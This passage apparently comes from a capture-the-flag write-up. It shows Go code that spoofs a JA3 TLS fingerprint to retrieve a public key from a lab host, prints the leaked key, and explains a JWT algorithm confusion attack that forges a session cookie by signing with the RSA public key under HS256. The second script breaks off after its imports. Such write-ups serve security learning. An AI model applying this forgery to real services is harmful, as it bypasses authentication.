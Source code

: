 ```` `` can run commands in a subshell. The limiting factor here is that the
        "io/ioutil"
        "fmt"
        "net/http"
        "github.com/CUCyber/ja3transport"
    )
    
    func main() {
    
        tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")
        client := &http.Client{Transport: tr}
        resp, _ := client.Get("https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/keys/1d21a9f945")
        body, _ := ioutil.ReadAll(resp.Body)
        fmt.Println(string(body))
    }
    

It does return the key:

    
    
    root@kali# go run main-3-leak-public.go 
    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
    Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
    SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
    wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
    US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
    X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
    zwIDAQAB
    -----END PUBLIC KEY-----
    

#### Algorithm Confusion Attack

RS256 is an RSA signature, where a private key is used to sign the JWT, and
then the public key is used to verify it. The alternative signature is HS256,
which is a keyed SHA256 hash signature, where the key is symmetric for signing
and verification.

If the server is trusting the JWT to tell it what algorithm is in use, there’s
an attack where I use the RSA public key to sign as the private key in HS256.
If the server just uses the public key with the algorithm in the JWT, then it
should validate my forged cookie.

Now the script will read the public key, and create a new JWT with a really
long valid time window and the user santa1337 as described in the comment.
It’ll sign the JWT using the RSA public key string as the HMAC secret in
HS256, and submit that to the site in a GET request:

    
    
    package main
    
    
    import (
        "io/ioutil"
        "fmt"
        "net/http"
        "time"
        "github.com/CUCyber/ja3transport"
        "github.com/dgrijalva/jwt-go"
````
